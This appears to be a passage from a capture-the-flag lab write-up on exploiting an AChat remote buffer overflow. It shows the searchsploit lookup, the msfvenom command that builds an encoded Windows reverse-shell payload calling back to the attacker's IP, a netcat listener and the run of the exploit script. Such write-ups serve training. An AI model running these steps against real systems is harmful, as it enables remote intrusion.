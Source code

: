 It seemed like a web server was running on this port, but I was not able to visit any pages. Using `searchsploit`, we found out that `AChat` had a remote buffer overflow vulnerability that we can exploit.

```bash
$ searchsploit Achat                 
--------------------------------------------------------------- ---------------------------------
 Exploit Title                                                 |  Path
--------------------------------------------------------------- ---------------------------------
Achat 0.150 beta7 - Remote Buffer Overflow                     | windows/remote/36025.py
Achat 0.150 beta7 - Remote Buffer Overflow (Metasploit)        | windows/remote/36056.rb
```

# Exploitation (1)

After copying the script, I modified the script to contain the IP address of the machine.

```python
# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_address = ('10.10.10.74', 9256)
```

I also generated a payload using `msfvenom`:

```bash
$ msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.30 LPORT=1337 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 774 (iteration=0)
x86/unicode_mixed chosen with final size 774
Payload size: 774 bytes
Final size of python file: 3767 bytes
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += b"\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
...
```

And replace the payload in the script with the payload that `msfvenom` generated. I then started my `nc` listener:

```bash
$ rlwrap nc -lvnp 1337                                
listening on [any] 1337 ...
```

And executed the script:

```bash
$ python 36025.py                      
---->{P00F}!
```

